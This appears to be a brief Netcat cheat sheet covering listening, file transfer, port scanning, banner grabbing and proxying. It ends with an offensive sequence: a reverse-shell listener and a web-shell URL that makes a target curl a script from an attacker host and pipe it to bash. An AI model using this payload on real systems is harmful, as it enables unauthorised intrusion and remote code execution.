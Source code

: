 ##`nc` (Netcat)

Netcat is a versatile networking utility that is used for reading from and writing to network connections using TCP or UDP protocols

### To listen on a specific port
nc -l -p <port>

### To connect to a server on a specific host and port
nc <host> <port>

File Transfer:

Netcat can be used to transfer files between systems.
bash

### On the receiving end
nc -l -p <port> > received_file

### On the sending end
nc <host> <port> < file_to_send


Port Scanning:

Netcat can be used for basic port scanning to check the status of ports on a remote server.
bash

nc -zv <host> <start_port>-<end_port>
Banner Grabbing:

Netcat can be used to grab banners or information from network services.
bash

nc -v <host> <port>

Chat Server and Client:

Netcat can facilitate simple chat communication between systems.
bash

### On the server
nc -l -p <port>

### On the client
nc <host> <port>

Proxying:

Netcat can act as a basic proxy to forward traffic between two hosts.
bash

### On the proxy server
nc -l -p <local_port> | nc <remote_host> <remote_port>

### On the client
nc -N <proxy_host> <proxy_port>

### Listen for resverse shell
nc -nvlp 1337

Launch a web server on your machine and visit the URL:
python3 -m http.server 8000
<hostname>/shell.php?cmd=curl%20<IP_ADDRESS>:8000/shell.sh|bash
